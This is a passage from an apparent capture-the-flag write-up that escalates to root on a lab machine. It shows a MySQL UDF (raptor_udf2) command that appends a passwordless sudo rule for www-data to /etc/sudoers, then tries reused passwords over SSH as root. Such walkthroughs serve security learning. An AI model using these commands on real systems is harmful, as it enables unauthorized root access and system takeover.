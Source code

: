 
![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551915519461_image.png)


recieved an error that the `raptor_udf2.so` did not exist in the `/usr/lib/raptor_udf2.so` so at this point I manually pushed the file to the directory.

under mysql table:

    select do_system('echo "www-data ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers');  

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551915587156_image.png)


we have succefully aded www-data to the `/etc/sudoer` file which we can just `sudo bash` to achieve a root shell.


# Root

The likelyhood of passwords being reused is always an options - attempt ssh to root

    ssh root@10.10.10.100

with the two variant of passwords is always worth a shot

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551837223686_image.png)


Bring me the root!

-exec


